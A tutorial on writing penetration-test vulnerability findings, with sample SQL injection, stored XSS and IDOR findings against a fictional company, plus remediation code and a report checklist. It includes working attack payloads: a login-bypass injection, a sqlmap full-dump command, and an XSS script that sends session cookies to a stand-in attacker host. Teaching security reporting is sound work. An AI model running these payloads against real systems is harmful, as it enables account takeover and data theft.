


# Writing Vulnerability Descriptions

> **Difficulty:** Intermediate | **Category:** Penetration Testing

---

## Why Vulnerability Descriptions Matter

A finding in a penetration test report is only as useful as its description. A technically brilliant exploit that is documented as "SQL injection found on login page — fix your queries" gives the development team nothing actionable. They don't know which endpoint, which parameter, what the query looks like, how to reproduce it, or specifically what to change.

**The goal of a vulnerability description is not to demonstrate knowledge — it is to get the vulnerability fixed.**

Every word in a finding description should serve one of three purposes:
1. Help the remediation team understand and reproduce the vulnerability
2. Convey the business risk to justify prioritization
3. Provide specific, actionable guidance to fix it

> **Note:** Studies of post-pentest remediation show that the #1 reason high and critical findings go unaddressed for 90+ days is insufficient detail in the report — specifically, inability to reproduce the finding without additional help from the testing team. Write descriptions as if you will never be available to answer follow-up questions.

---

## Anatomy of a Good Finding

A complete finding contains eleven components. Each one serves a specific purpose and audience.



### Component 1: Title

The title must answer four questions in one line:
- **What** type of vulnerability is it?
- **Where** is it located?
- **What** can an attacker do with it?

**Format:** `[Vulnerability Type] in [Specific Location] [Enables/Allows/Exposes] [Specific Impact]`

### Component 2: Severity Rating

Use the standard four-tier system plus Informational:

| Severity | CVSS v3.1 Range | Meaning |
|---|---|---|
| **Critical** | 9.0–10.0 | Unauthenticated remote exploitation possible, catastrophic impact |
| **High** | 7.0–8.9 | Exploitation likely, significant impact |
| **Medium** | 4.0–6.9 | Exploitation requires conditions, moderate impact |
| **Low** | 0.1–3.9 | Limited exploitation potential, minor impact |
| **Informational** | N/A | Best practice observation, defense-in-depth recommendation |

### Component 3: CVSS Score

Always include the full CVSS v3.1 vector string, not just the number. The vector string shows exactly how you scored the finding and allows the client to verify or adjust for their environment.

Format: `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H = 9.8`

### Component 4: CVE/CWE References

- **CWE (Common Weakness Enumeration):** Always applicable — identifies the class of vulnerability
- **CVE (Common Vulnerabilities and Exposures):** Only if the finding relates to a known vulnerability in a specific software version

Common CWEs for web application findings:

| CWE ID | Name | Common Finding Type |
|---|---|---|
| CWE-89 | SQL Injection | Any SQL injection finding |
| CWE-79 | Cross-Site Scripting | Any XSS finding |
| CWE-639 | Insecure Direct Object Reference | IDOR/authorization issues |
| CWE-287 | Improper Authentication | Authentication bypass |
| CWE-798 | Hard-coded Credentials | Default or embedded credentials |
| CWE-502 | Deserialization of Untrusted Data | Java/PHP deserialization |
| CWE-611 | XML External Entity (XXE) | XXE injection |
| CWE-918 | Server-Side Request Forgery | SSRF findings |
| CWE-22 | Path Traversal | Directory traversal |
| CWE-434 | Unrestricted File Upload | File upload vulnerabilities |

### Component 5: Affected Location

Be as specific as possible. Never write "the application." Write:

```
Affected Host:      https://api.acmecorp.com
Affected Endpoint:  POST /api/v1/users/login
Affected Parameter: username (JSON body)
Testing Source IP:  203.0.113.100
Tested On:          November 8, 2024, 14:32 UTC
```

### Component 6: Description

Two to four paragraphs:
- **Paragraph 1:** What the vulnerability is and where it exists
- **Paragraph 2:** How it can be triggered and what happens
- **Paragraph 3:** Context on root cause (optional for complex findings)

### Component 7: Steps to Reproduce

Numbered list. Each step must be specific enough that a developer with no security background can follow them and reproduce the finding. Include:
- Exact URLs
- Exact payloads
- Which tool or browser to use
- What the expected vs actual result is

### Component 8: Evidence

Proof that the vulnerability exists and has been confirmed. Always include at minimum:
- Full HTTP request showing the payload
- Full HTTP response showing the vulnerability confirmed
- For RCE: output of `id` or `whoami` command
- For SQLi: extracted data (redacted/truncated)
- For authentication bypass: response showing successful auth

### Component 9: Business Impact

One to three sentences explaining real business consequences. Must include:
- Who is affected (all users, admins only, unauthenticated attackers)
- What can be accessed/done/stolen
- Quantified scope where possible (number of records, dollar value, systems)
- Regulatory implications if applicable

### Component 10: Remediation

Must be specific enough to implement without asking the testing team for clarification. Include:
- Immediate mitigation (if available)
- Full remediation with code example or configuration change
- Verification step (how to confirm it's fixed)

### Component 11: References

Always include at minimum:
- CWE link
- OWASP article or cheat sheet
- Vendor documentation if relevant

---

## Writing Finding Titles

The title is the first thing every stakeholder reads. It must convey severity and impact at a glance.

### Bad vs Good Title Comparison

| Bad Title | Why It Fails | Good Title |
|---|---|---|
| "SQL Injection" | No location, no impact | "SQL Injection in /api/users/login Enables Authentication Bypass and Full Database Dump" |
| "XSS Found" | No context, no severity signal | "Stored Cross-Site Scripting in User Comment Field Enables Session Hijacking of All Users" |
| "Weak Password" | What system? What's the consequence? | "Default Credentials on Tomcat Manager Console (admin:admin) Enable Remote Code Execution" |
| "Missing Header" | Which header? What's the risk? | "Missing Content Security Policy Header on customer.acmecorp.com Amplifies XSS Attack Impact" |
| "IDOR" | Acronym unexplained, no location | "Insecure Direct Object Reference in /api/orders/{id} Exposes All Customer Order History" |
| "Open Redirect" | No context | "Open Redirect on /login?next= Enables Phishing via Trusted Domain" |
| "Information Disclosure" | No specifics | "Server Error Pages Disclose Full Stack Traces Including Database Connection Strings" |
| "Broken Authentication" | Too vague | "JWT Signature Verification Disabled Allows Forging of Any User's Authentication Token" |
| "File Upload Issue" | What issue? | "Unrestricted File Upload in Profile Photo Function Allows Remote Code Execution via PHP Webshell" |
| "Outdated Software" | Which software? What's exploitable? | "Apache Log4j 2.14.1 (CVE-2021-44228) on api-server-01 Allows Unauthenticated Remote Code Execution" |

> **Note:** Good titles are longer. That is fine. A title that is 15 words and immediately communicates the finding is better than a 2-word title that requires reading the entire finding to understand.

---

## Complete Sample Finding — SQL Injection

```
Finding ID:    F-001
Title:         SQL Injection in POST /api/v1/users/login Enables 
               Authentication Bypass and Complete Database Exfiltration
Severity:      Critical
CVSS v3.1:     9.8 — CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
CWE:           CWE-89: Improper Neutralization of Special Elements used in an SQL Command
CVE:           N/A (custom vulnerability, not a vendor product)
Affected Host: https://api.acmecorp.com
Endpoint:      POST /api/v1/users/login
Parameter:     username (application/json request body)
Discovered:    November 8, 2024, 14:32 UTC
```

### Description

A SQL injection vulnerability was identified in the user authentication endpoint at `POST /api/v1/users/login`. The `username` parameter in the JSON request body is directly concatenated into a SQL query without parameterization or sanitization, allowing an attacker to manipulate the query's logical structure.

This vulnerability was confirmed to support both **error-based** and **UNION-based** SQL injection techniques. Authentication bypass is achieved through boolean injection (`OR 1=1`), and full database exfiltration was confirmed by extracting the `users` table schema and sample records.

The application runs on MySQL 8.0.28, and the database user (`acme_webapp`) has SELECT privileges on all tables in the `acmedb` database, including `users`, `payment_cards`, and `orders`.

### Steps to Reproduce

**Authentication Bypass:**

1. Open a terminal or Burp Suite Repeater tab
2. Send the following HTTP request:

```http
POST /api/v1/users/login HTTP/1.1
Host: api.acmecorp.com
Content-Type: application/json
User-Agent: Mozilla/5.0 (compatible)
Content-Length: 65

{"username":"admin'--","password":"anything"}
```

3. Observe the response returns HTTP 200 with an admin JWT token
4. This confirms SQL injection via comment injection (`--`) to bypass the password check

**Full Database Dump via sqlmap:**

```bash
sqlmap -u "https://api.acmecorp.com/api/v1/users/login" \
  --data='{"username":"*","password":"test"}' \
  --method POST \
  --headers="Content-Type: application/json" \
  --level=5 --risk=3 \
  --dbms=mysql \
  --dump-all \
  --batch
```

### Evidence

**Request demonstrating authentication bypass:**

```http
POST /api/v1/users/login HTTP/1.1
Host: api.acmecorp.com
Content-Type: application/json
Accept: application/json
Content-Length: 65

{"username":"admin'--","password":"wrongpassword"}
```

**Response confirming successful bypass:**

```http
HTTP/1.1 200 OK
Content-Type: application/json
X-Request-ID: a3f7-d291-bc04

{
  "status": "success",
  "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjEsInJvbGUiOiJzdXBlcmFkbWluIn0.signature",
  "user": {
    "id": 1,
    "username": "admin",
    "email": "admin@acmecorp.com",
    "role": "superadmin"
  },
  "message": "Login successful"
}
```

**Partial sqlmap output showing database enumeration:**

```
[14:45:12] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 8.0
[14:45:13] [INFO] fetching database names
available databases [3]:
[*] acmedb
[*] information_schema
[*] performance_schema

[14:45:18] [INFO] fetching tables for database: 'acmedb'
Database: acmedb
[8 tables]
+------------------+
| users            |
| orders           |
| payment_cards    |
| products         |
| sessions         |
| audit_log        |
| admin_settings   |
| api_keys         |
+------------------+

[14:45:24] [INFO] fetching columns for table 'users' in database 'acmedb'
Database: acmedb
Table: users
[9 columns]
+-------------------+--------------+
| Column            | Type         |
+-------------------+--------------+
| id                | int          |
| username          | varchar(100) |
| email             | varchar(200) |
| password_hash     | varchar(255) |
| full_name         | varchar(200) |
| billing_address   | text         |
| phone             | varchar(20)  |
| created_at        | datetime     |
| is_admin          | tinyint(1)   |
+-------------------+--------------+
```

### Business Impact

An unauthenticated attacker with access to the public internet can exploit this vulnerability to:

1. **Bypass authentication** and access any user account, including all administrator accounts, without knowing any credentials
2. **Extract the complete `users` table**, exposing approximately 87,000 customer records including full names, email addresses, postal addresses, phone numbers, and bcrypt password hashes
3. **Extract the `payment_cards` table**, which may contain tokenized payment card references or card metadata depending on the payment processor integration
4. **Extract API keys** from the `api_keys` table, potentially enabling access to integrated third-party services

The exposed customer data constitutes personally identifiable information (PII) subject to GDPR (EU customers), CCPA (California customers), and UK GDPR. A breach involving this data would trigger mandatory regulatory notification to supervisory authorities within 72 hours (GDPR Article 33) and notification to affected individuals. Financial penalties could reach up to €20 million or 4% of annual global turnover under GDPR Article 83(5).

> **Warning:** This finding represents the most critical risk identified during the engagement. The vulnerability is trivially exploitable by any attacker using freely available tools and requires no authentication or special knowledge.

### Remediation

**Immediate mitigation (within 24 hours):**

Deploy a WAF rule to block SQL metacharacters in the login endpoint. Example AWS WAF rule:
```json
{
  "Name": "BlockSQLInjectionInLogin",
  "Priority": 1,
  "Statement": {
    "ByteMatchStatement": {
      "FieldToMatch": {"Body": {}},
      "PositionalConstraint": "CONTAINS",
      "SearchString": "'",
      "TextTransformations": [{"Priority": 0, "Type": "NONE"}]
    }
  },
  "Action": {"Block": {}}
}
```
Note: WAF rules are a temporary measure only and do not fix the underlying vulnerability.

**Full remediation (within 72 hours):**

Replace all string-concatenated SQL queries with parameterized prepared statements. The vulnerable code pattern in `AuthService.java` (approximately line 47) should be replaced as follows:

```java
// VULNERABLE CODE — current implementation
public User authenticateUser(String username, String password) {
    String sql = "SELECT * FROM users WHERE username='" + username + 
                 "' AND password_hash='" + hashPassword(password) + "'";
    Statement stmt = connection.createStatement();
    ResultSet rs = stmt.executeQuery(sql);
    // ...
}
```

```java
// SECURE CODE — use prepared statements
public User authenticateUser(String username, String password) {
    String sql = "SELECT id, username, email, role FROM users WHERE username = ? AND password_hash = ?";
    try (PreparedStatement pstmt = connection.prepareStatement(sql)) {
        pstmt.setString(1, username);
        pstmt.setString(2, hashPassword(password));
        ResultSet rs = pstmt.executeQuery();
        if (rs.next()) {
            return mapResultToUser(rs);
        }
        return null;
    }
}
```

**Additional hardening:**
- Create a dedicated database user for authentication with SELECT access on `users` table only
- Enable MySQL's `sql_mode` with `STRICT_TRANS_TABLES` to prevent certain injection bypasses
- Implement account lockout after 5 failed authentication attempts

**Verification:** After remediation, the original reproduction steps should return HTTP 401 Unauthorized instead of a successful login token.

### References

- OWASP SQL Injection Prevention Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
- CWE-89: https://cwe.mitre.org/data/definitions/89.html
- OWASP Top 10 2021 – A03 Injection: https://owasp.org/Top10/A03_2021-Injection/
- Java PreparedStatement documentation: https://docs.oracle.com/javase/tutorial/jdbc/basics/prepared.html

---

## Complete Sample Finding — Stored XSS

```
Finding ID:    F-004
Title:         Stored Cross-Site Scripting in Product Review Field 
               Enables Session Hijacking of All Authenticated Users
Severity:      High
CVSS v3.1:     8.8 — CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:N
CWE:           CWE-79: Improper Neutralization of Input During Web Page Generation
CVE:           N/A
Affected Host: https://app.acmecorp.com
Endpoint:      POST /api/v1/products/{id}/reviews (submit), 
               GET /products/{id} (render)
Parameter:     review_text (multipart form body)
Discovered:    November 9, 2024, 10:15 UTC
```

### Description

A stored cross-site scripting (XSS) vulnerability was identified in the product review submission feature. The `review_text` parameter accepts arbitrary HTML and JavaScript input that is stored in the database and rendered without encoding in the product listing pages viewed by all users.

Unlike reflected XSS, this stored variant persists in the application and executes for every user who views the affected product page — without any further action from the attacker. The JavaScript execution context is the authenticated user's browser session, granting access to session cookies (if not HttpOnly flagged), local storage, and the ability to perform actions on behalf of the victim user.

Testing confirmed that the `HttpOnly` flag is **not** set on the session cookie (`session_id`), making direct cookie theft via `document.cookie` possible.

### Steps to Reproduce

1. Log in to the application with any valid user account (registration is open)
2. Navigate to any product page, e.g., `https://app.acmecorp.com/products/42`
3. Submit the following as a product review:

```
Great product! <script>
fetch('https://attacker.example.com/steal?c=' + encodeURIComponent(document.cookie));
</script>
```

4. Navigate away from the product page and return to it
5. Observe in browser developer tools (Network tab) that a request is made to `attacker.example.com` containing the session cookie
6. Any other user viewing this product page will also send their session cookie to the attacker's server

### Evidence

**Payload submitted in review_text field:**

```http
POST /api/v1/products/42/reviews HTTP/1.1
Host: app.acmecorp.com
Cookie: session_id=abc123def456
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

product_id=42&rating=5&review_text=Great+product!+%3Cscript%3Efetch('https://attacker.example.com/steal?c='+encodeURIComponent(document.cookie))%3B%3C/script%3E
```

**Response confirming review saved:**

```http
HTTP/1.1 201 Created
Content-Type: application/json

{"status":"success","review_id":1891,"message":"Review published successfully"}
```

**Page source showing unencoded script in rendered HTML:**

```html
<div class="review-item" data-review-id="1891">
  <div class="review-author">testuser42</div>
  <div class="review-stars">★★★★★</div>
  <div class="review-text">
    Great product! <script>
    fetch('https://attacker.example.com/steal?c=' + encodeURIComponent(document.cookie));
    </script>
  </div>
</div>
```

**Attacker server log showing stolen session cookie from another user:**

```
203.0.113.55 - - [09/Nov/2024:10:22:14 +0000] "GET /steal?c=session_id%3Dxyz789abc123 HTTP/1.1" 200 -
```

### Business Impact

An attacker with a free user account can plant malicious JavaScript in product reviews that executes in the browser of every user who views that product page. Consequences include:

- **Session hijacking:** The attacker can steal the session cookies of all users who view any affected product page and use those cookies to log in as those users, accessing their account details, order history, and payment methods
- **Credential harvesting:** More sophisticated payloads can overlay fake login forms on the page to harvest usernames and passwords
- **Unauthorized account actions:** The attacker can perform any action on behalf of the hijacked user account, including modifying shipping addresses, initiating returns, or accessing stored payment methods
- **Admin account takeover:** If any administrator views a product page with a stored XSS payload, the attacker gains access to the admin panel, potentially leading to full application compromise

This vulnerability affects all authenticated users of the platform. With approximately 87,000 registered users and product pages generating high traffic, the exploitation window is broad.

### Remediation

**Immediate mitigation:**
Disable the review display on product pages while remediation is in progress. Alternatively, strip all HTML tags from stored reviews using a server-side sanitization function.

**Full remediation:**

1. **Output encode all user-supplied content** before rendering in HTML. Use context-appropriate encoding:

```javascript
// Node.js — encode before inserting into HTML
const he = require('he');

// In your template rendering:
const safeReviewText = he.encode(review.review_text);
// Renders: &lt;script&gt;alert(1)&lt;/script&gt; — not executable
```

```python
# Python (Flask/Jinja2) — use | e filter or autoescape
# In template:
{{ review.review_text | e }}
# Or enable autoescape globally:
app = Flask(__name__, template_folder='templates')
app.jinja_env.autoescape = True
```

2. **Set HttpOnly and Secure flags on all session cookies:**

```
Set-Cookie: session_id=abc123; HttpOnly; Secure; SameSite=Strict
```

This prevents JavaScript from reading the session cookie even if XSS is exploited, significantly reducing the impact of any residual or future XSS vulnerabilities.

3. **Implement a Content Security Policy (CSP) header:**

```
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'; base-uri 'self'
```

4. **If rich text is required in reviews**, use a server-side HTML sanitization library rather than trusting client-supplied HTML:

```javascript
// Node.js — DOMPurify for server-side sanitization
const createDOMPurify = require('dompurify');
const { JSDOM } = require('jsdom');
const window = new JSDOM('').window;
const DOMPurify = createDOMPurify(window);

const cleanHTML = DOMPurify.sanitize(userInput, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'br'],
  ALLOWED_ATTR: []
});
```

5. **Re-sanitize all existing reviews** in the database to remove any stored payloads.

**Verification:** After remediation, submit `<script>alert(1)</script>` as a review. On the product page, the text should render as literal `<script>alert(1)</script>` visible on the page, with no alert dialog appearing.

### References

- OWASP XSS Prevention Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- OWASP DOM Based XSS Prevention Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html
- CWE-79: https://cwe.mitre.org/data/definitions/79.html
- Content Security Policy Reference: https://content-security-policy.com/

---

## Evidence Quality

Evidence is the proof that converts a claim into a confirmed finding. Without quality evidence, clients may dispute findings, and remediation teams cannot confirm they are fixing the right thing.

### What Makes Good Evidence

| Quality Attribute | Description | Example |
|---|---|---|
| **Reproducible** | Another person can follow the evidence and confirm the finding | Full HTTP request with exact payload |
| **Timestamped** | Proves testing was in-scope timeframe | Server response includes `Date:` header |
| **Impact-demonstrating** | Shows the actual consequence, not just the trigger | Response containing database records, not just a 200 OK |
| **Specific** | Identifies the exact affected component | Shows specific URL and parameter |
| **Minimal** | Contains only what's needed | Relevant request/response, not 50-page scan output |

### HTTP Requests and Responses

Always use the full HTTP format from Burp Suite or a similar proxy. Include:
- All headers (remove your personal cookies/tokens — use test account tokens only)
- Full request body
- HTTP response status code
- Relevant response headers
- Enough of the response body to demonstrate the vulnerability

For SQL injection — show the data returned.
For authentication bypass — show the successful authentication token/session.
For SSRF — show the internal server's response echoed back.
For file upload — show the webshell executing a command.

### PoC Code Quality

When including PoC scripts, follow these rules:
- Minimal — shortest code that demonstrates the vulnerability
- Working — tested and confirmed to produce the shown output
- Annotated — brief comments explaining non-obvious steps
- Safe — no actual destructive payloads (use `id`, `whoami`, `echo test` not `rm -rf /`)

```python
#!/usr/bin/env python3
# PoC: IDOR in /api/v1/orders/{id} — any authenticated user can read any order
# Demonstrated: user with order_id=100 can read order_id=1 (belonging to another user)
# Testing firm: TestingFirm Ltd. | Date: November 10, 2024

import requests

# Attacker's session (account: attacker@test.com)
attacker_session = "Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VySWQiOjk5OX0.signature"

# Target order ID belonging to a different user
target_order_id = 1

headers = {
    "Authorization": attacker_session,
    "Accept": "application/json"
}

response = requests.get(
    f"https://api.acmecorp.com/api/v1/orders/{target_order_id}",
    headers=headers
)

print(f"Status: {response.status_code}")  # Expected: 403, Actual: 200
print(f"Response: {response.json()}")     # Shows another user's order details
```

---

## Impact Statements

The business impact statement is where most technical writers fail. It must answer: *"So what? Why should a non-technical executive care about this?"*

### Bad vs Good Impact Statements

| Finding | Bad Impact Statement | Good Impact Statement |
|---|---|---|
| SQL injection in login | "An attacker could potentially access data." | "An unauthenticated attacker can extract all 87,000 customer records including names, email addresses, hashed passwords, and billing addresses from the database using freely available automated tools in under 5 minutes." |
| Stored XSS | "Users could be affected by this vulnerability." | "Any attacker with a free account can steal active session tokens from all users who view a product page, enabling them to take full control of those accounts including viewing payment methods and modifying order history." |
| Default admin credentials | "Attackers might gain access." | "An attacker who knows the application uses Tomcat (detectable via HTTP headers) can log in to the Tomcat Manager console with default credentials admin:admin, upload a malicious WAR file, and achieve remote command execution on the web server within 3 minutes." |
| Exposed API key in JavaScript | "Sensitive information was found." | "A hardcoded AWS access key exposed in the application's JavaScript bundle grants an attacker full access to the AcmeCorp S3 bucket containing customer contract documents and internal HR records. Keys are valid indefinitely until revoked." |
| Missing MFA on admin panel | "The admin panel lacks MFA." | "An attacker who obtains any administrator password through phishing, credential stuffing, or the database breach described in F-001 gains immediate full administrative access to the application — there is no second factor to prevent unauthorized access." |

### Chaining Findings for Amplified Impact

Individual findings may be medium or low severity in isolation. When combined, they can represent catastrophic risk. The attack narrative section demonstrates this, but the impact statement in individual findings should also reference dependencies:

```
Business Impact (F-007 — Weak Password Policy, High):

In isolation, a weak password policy represents a moderate risk requiring an 
attacker to already have access to user credentials. However, combined with the 
SQL injection finding (F-001, Critical), which allows extraction of all password 
hashes, this finding becomes a direct path to account takeover for any account 
with a common password. During testing, the extracted hash for the superadmin 
account was cracked in 4 minutes using Hashcat with the rockyou.txt wordlist, 
demonstrating that a real attacker would likely gain administrative access within 
minutes of database compromise.
```

---

## Remediation Guidance Quality

The remediation section is the most important part of the finding for engineers who must fix the vulnerability.

### Bad vs Good Remediation

| Vulnerability | Bad Remediation | Good Remediation |
|---|---|---|
| SQL Injection | "Sanitize user input." | "Replace all string-concatenated SQL queries with parameterized prepared statements. In `UserDAO.java` line 45, replace the `createStatement()` pattern with `prepareStatement()`." + code example |
| XSS | "Encode output." | "Apply HTML entity encoding to all user-supplied data before rendering it in HTML. Use your framework's built-in escaping: `{{ variable \| escape }}` in Jinja2, `he.encode()` in Node.js. Additionally, set the `Content-Security-Policy` header to restrict script execution." |
| IDOR | "Check authorization." | "Before returning order data, verify that the authenticated user's ID matches the `user_id` field of the requested order: `if order.user_id != current_user.id: return 403`. Apply this check consistently across all object-level API endpoints." |
| Weak Crypto | "Use strong encryption." | "Replace MD5 password hashing with bcrypt using a work factor of 12 or higher: `bcrypt.hash(password, 12)`. MD5 is not a password hashing algorithm. Re-hash all existing passwords at next login using a migration function." |
| Exposed Secret | "Remove the secret." | "Immediately revoke the exposed AWS access key (key ending in ...XyZ) in the AWS IAM console. Remove the hardcoded key from `config.js` line 23. Store secrets in environment variables or a secrets manager (AWS Secrets Manager, HashiCorp Vault). Add a `.env` gitignore rule and audit git history for previous secret exposures." |
| Missing Auth | "Add authentication." | "Add authentication middleware to the `/api/v1/admin/*` route group. All routes under this prefix should require a valid JWT with `role: admin`. The route handler for `/api/v1/admin/users` at `routes/admin.js` line 12 currently has no `requireAuth` middleware applied." |

### Remediation for Common Vulnerability Types

**SQL Injection — Parameterized Queries:**

```python
# Python (SQLAlchemy ORM — preferred approach)
from sqlalchemy.orm import Session
from models import User

def get_user_by_username(db: Session, username: str) -> User:
    return db.query(User).filter(User.username == username).first()

# Python (psycopg2 with parameterized query)
import psycopg2

def authenticate_user(username: str, password_hash: str):
    cursor = conn.cursor()
    cursor.execute(
        "SELECT id, username, role FROM users WHERE username = %s AND password_hash = %s",
        (username, password_hash)  # Parameters passed separately, never concatenated
    )
    return cursor.fetchone()
```

**XSS — Output Encoding:**

```javascript
// JavaScript — encode before inserting into DOM
function setInnerTextSafely(element, userContent) {
    // textContent automatically encodes — safe for text nodes
    element.textContent = userContent;
    
    // NEVER do this with untrusted content:
    // element.innerHTML = userContent;  // XSS risk
}

// React — JSX is safe by default (auto-escapes)
function ReviewCard({ reviewText }) {
    return <div className="review">{reviewText}</div>; // Safe — auto-escaped
    // NOT: <div dangerouslySetInnerHTML={{__html: reviewText}} /> // Unsafe
}
```

**IDOR — Object-Level Authorization:**

```javascript
// Node.js/Express — add authorization check to order retrieval
router.get('/api/v1/orders/:orderId', requireAuth, async (req, res) => {
    const order = await Order.findById(req.params.orderId);
    
    if (!order) {
        return res.status(404).json({ error: 'Order not found' });
    }
    
    // Authorization check — ensure user owns the order
    if (order.userId !== req.user.id && req.user.role !== 'admin') {
        return res.status(403).json({ error: 'Access denied' });
    }
    
    return res.json(order);
});
```

**Weak Crypto — bcrypt for passwords:**

```javascript
// Node.js — bcrypt password hashing
const bcrypt = require('bcrypt');
const SALT_ROUNDS = 12; // Minimum 12 for current hardware

// Hash a new password
async function hashPassword(plaintext) {
    return await bcrypt.hash(plaintext, SALT_ROUNDS);
}

// Verify a password
async function verifyPassword(plaintext, storedHash) {
    return await bcrypt.compare(plaintext, storedHash);
}

// Never use: MD5, SHA1, SHA256 without salt for passwords
// These are message digests, not password hashing algorithms
```

---

## Writing for Two Audiences

The same finding must communicate different things to different readers. Some organizations request dual-format findings — a technical section and an executive-friendly summary for each finding.

### Technical Version — SQL Injection Finding

```
TECHNICAL FINDING
=================
A SQL injection vulnerability in POST /api/v1/users/login allows UNION-based
data exfiltration and authentication bypass via boolean injection. The username
parameter is concatenated into a MySQL query without parameterized binding.

Reproduction:
  curl -X POST https://api.acmecorp.com/api/v1/users/login \
    -H "Content-Type: application/json" \
    -d '{"username":"admin'\''--","password":"x"}'

CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H = 9.8 Critical

Fix: Replace Statement.execute() with PreparedStatement in AuthService.java:47.
```

### Management Version — Same Finding

```
MANAGEMENT SUMMARY
==================
Risk Level: CRITICAL — Immediate Action Required

What Was Found:
Our testing team discovered that the login page of the AcmeCorp application 
has a fundamental security flaw that allows an attacker to log in without 
knowing any password. Using a simple text manipulation technique, the attacker 
can impersonate any user in the system.

What Can Happen:
- An attacker on the internet could log in as any employee or customer without 
  their password
- The complete customer database (87,000 records) can be downloaded in minutes
- This includes customer names, addresses, and order history

What To Do:
Development team must apply a technical fix (changing how the database query 
is written) within 72 hours. Estimated effort: 2–4 developer hours.
```

---

## Finding Documentation Flow



---

## Finding Quality Checklist

Use this checklist before marking any finding complete:

| Check | Pass/Fail | Notes |
|---|---|---|
| Title includes vulnerability type, location, and impact | | |
| CVSS v3.1 vector string included (not just the number) | | |
| CWE reference included | | |
| Affected URL/host/parameter/file specified exactly | | |
| Steps to reproduce are numbered and specific | | |
| Steps tested — finding is confirmed reproducible | | |
| HTTP request/response included as evidence | | |
| Evidence shows actual impact (not just error message) | | |
| Business impact uses plain English | | |
| Business impact quantifies scope (records/users/systems) | | |
| Remediation is specific (not "sanitize input") | | |
| Code example or configuration change provided | | |
| Verification step included (how to confirm fix) | | |
| CWE/OWASP references included | | |
| Finding peer-reviewed by second tester | | |
| No template placeholder text remaining | | |
| No sensitive data (real credentials, keys) in evidence | | |
| Finding title and content match | | |

> **Warning:** Never submit a finding with failing checklist items. A finding that cannot be reproduced is worse than no finding — it damages trust in the entire report and can create adversarial relationships with the client development team when they cannot reproduce what you documented.
